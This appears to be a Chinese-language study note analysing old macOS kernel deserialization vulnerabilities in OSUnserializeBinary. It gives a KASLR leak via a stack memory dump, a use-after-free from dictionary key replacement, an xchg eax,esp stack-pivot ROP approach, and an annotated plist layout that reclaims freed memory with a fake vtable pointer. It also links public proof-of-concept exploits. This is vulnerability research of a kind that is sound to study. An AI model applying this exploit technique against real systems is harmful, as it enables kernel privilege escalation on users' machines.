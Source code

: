 # 反序列化漏洞分析

## poc执行

程序必须通过32位编译才可以运行，64位的话会出现找不到函数





### 程序逻辑

打开设备申请新的设备
另外接口文件在device/device.defs里面
Iouserclinet里面调用了序列化与反序列化的函数
Osdata在64位和number结构一样大，所以用的他



https://github.com/zhengmin1989/OS-X-10.11.6-Exp-via-PEGASUS/blob/master/exp.m再加个别人的poc把，自己做不会了还能看看

加个分析

https://www.anquanke.com/post/id/169191

https://amywushu.github.io/2016/12/16/%E8%AF%91-Analysis-and-exploitation-of-Pegasus-kernel-vulnerabilities-CVE-2016-4655-CVE-2016-4656.html

因为他的那个函数不断断点，所以我换了个函数

_io_register_entry_set_por



## 程序泄露aslr

```
case kOSSerializeNumber:
    bufferPos += sizeof(long long);
    if (bufferPos > bufferSize) break;
    value = next[1];
    value <<= 32;
    value |= next[0];
    o = OSNumber::withNumber(value, len);
    next += 2;
    break;
```

虽然漏洞在OSUnserializeBinary中，但是这个函数只是没有校验长度，而实际泄漏的是
_is_io_registry_entry_get_property_bytes里面的栈内存

内存如下

0xffffff8863f5bdb0: 0x4141414141414141 0xffffff800cbde684
0xffffff8863f5bdc0: 0xffffff800cb84000 0x0000000000000004
0xffffff8863f5bdd0: 0xffffff800d8455a0 0xffffff800cbde6b4
0xffffff8863f5bde0: 0xffffff8863f5be20 0xffffff8002d5ebff->0xffffff8002c00000

指针的位置用来破解kaslr



### 程序利用

这个程序要在

```
if(dict)
{
    if(sym){
        if(o!=dict)ok=dict->setObject(sym,o);
        o->release();
        sym->release();
        sym=0;
    }
    
}
```

当程序新的索引替换旧的的时候内存被释放，

当继续创建索引的时候出发vtable

### 程序利用修改

原本的程序是利用null pape的

但是新版不能这么用

所以搜索gadget找到xchg eax，esp

这个程序会清空高32位并且交换两个寄存器，eax正好是我们的虚表，把它伪造为用户地址，然后rop

<dict>                              <!--   0: dict                                    -->
​    <key>a</key>                    <!--   1: key "a"                                 -->
​    <integer>10</integer>           <!--   2: allocate block1                         -->
​    <key>b</key>                    <!--   3: key "b"                                 -->
​    <integer>20</integer>           <!--   4: allocate block2                         -->
​    <key>a</key>                    <!--   5: key "a"                                 -->
​    <true/>                         <!--   6: free block1; free list: block1          -->
​    <key>b</key>                    <!--   7: key "b"                                 -->
​    <true/>                         <!--   8: free block2; free list: block2, block1  -->
​    <key>a</key>                    <!--   9: key "a"                                 -->
​    <data> vtable pointer </data>   <!--  10: OSData gets block2, data gets block1    -->
​    <key>b</key>                    <!--  11: key "b"                                 -->

()<object>2</object>              <!--  12: block1->retain()                        -->

</dict>





exp参见cve-2016-1828.m